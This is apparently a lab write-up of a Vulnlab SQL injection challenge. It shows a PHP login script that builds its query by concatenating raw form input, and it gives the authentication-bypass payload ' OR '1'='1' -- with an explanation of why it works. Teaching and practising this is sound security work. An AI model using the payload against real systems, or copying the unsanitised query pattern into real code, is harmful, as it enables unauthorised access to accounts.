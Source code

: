 ```yaml
---
title: "[Vulnlab] SQL Injection - Login"
date: 2025-03-13 15:00:00 -500 
categories: [Vulnlab, SQL Injection - Login]
tags: [soc,redteam,sqli,docker,vulnlab]
author: Christoph K
---
```


# Situation:

We have the following `login form` and access to the `php code`. 

![Login](assets/img/vulnlab/sqli/login/01.png)



```php

<?php
require("../../../lang/lang.php");
$strings = tr();

$mysqli = new mysqli('localhost', 'sql_injection', '', 'sql_injection');

if ($mysqli->connect_errno) {
printf("Connect failed: %s\n", $mysqli->connect_error);
exit();
}

session_start();

if(isset($_POST['username']) && isset($_POST['password']) ){
    
    $usr=$_POST['username'];
    $pwd=$_POST['password'];

    $sql = "SELECT username,password FROM users WHERE username='" . $usr . "' AND password='" . $pwd . "'";


if ($result = $mysqli->query($sql)) {
while($obj = $result->fetch_object()){
    $_SESSION['username'] = $usr;
    header("Location: admin.php");
    exit;
}
}

elseif($mysqli->error){
print($mysqli->error);
}        
    }    
```

## Understand how the login form works


If we check the code, we can find this line:

`$sql = "SELECT username,password FROM users WHERE username='" . $usr . "' AND password='" . $pwd . "'";
`

This query takes user-supplied $usr and $pwd values and places them directly into the SQL statement without sanitization.


## SQLi: Authentication Bypass

After understanding, that there is no sanitization on the variables `$usr`and `$pwd` we can just try following statement:

`' OR '1'='1' -- `

Lets try to understand the logic here:

- We use `'`to escape the statement. 
- We use `or '1'=1` because this is always true. 
- We use `--` because that makes everything after `--` a comment


That makes our `SQL Query` like that: 

```sql
SELECT username,password FROM users WHERE username='' OR '1'='1' -- AND password='x';
```


![Login2](assets/img/vulnlab/sqli/login/02.png)


And we succesfully bypassed authentication!

![Login3](assets/img/vulnlab/sqli/login/03.png)




